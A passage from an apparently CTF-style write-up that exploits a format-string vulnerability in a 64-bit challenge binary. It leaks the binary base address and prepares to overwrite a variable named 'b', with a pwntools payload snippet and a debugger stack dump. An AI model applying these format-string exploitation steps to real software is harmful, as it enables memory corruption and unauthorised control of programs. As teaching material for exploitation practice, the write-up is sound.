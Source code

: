 Run that and we get the address of `__libc_csu_init` also binary base address:

![get_binary_base_addr.png](images/get_binary_base_addr.png)

Now we will move to next stage: Change `b`!

### Stage 2: Change `b`

With the binary base address, we can get the address of `b` easily. As we found that the start of our input is at `%6$p` and because this is 64 bit file so we need to put the address at the end (if we put address of `b` at the begining with null byte in the address, printf will stop execute that and leave `b` remain)

Let's check if we input full full 100 bytes in see_balance, how the stack look like with this code:

```
p.sendlineafter(b'2) Upgrade Pack', b'1')
payload = cyclic(100)
p.sendlineafter(b'Wanna upgrade pack?', payload)
p.recvline()
```

Run this and we get the stack:

```
gef➤  x/20xg $rsp
0x7ffda58eb950:	0x6161616261616161	0x6161616461616163
0x7ffda58eb960:	0x6161616661616165	0x6161616861616167
0x7ffda58eb970:	0x6161616a61616169	0x6161616c6161616b
0x7ffda58eb980:	0x6161616e6161616d	0x616161706161616f
0x7ffda58eb990:	0x6161617261616171	0x6161617461616173
0x7ffda58eb9a0:	0x6161617661616175	0x6161617861616177
0x7ffda58eb9b0:	0x0000563a00616179	0xd5397c62369cd900
0x7ffda58eb9c0:	0x00007ffda58eb9e0	0x0000563aaaabf766
0x7ffda58eb9d0:	0x00000001a58ebad0	0xd5397c62369cd900
0x7ffda58eb9e0:	0x0000000000000000	0x00007fdd4554d0b3
```
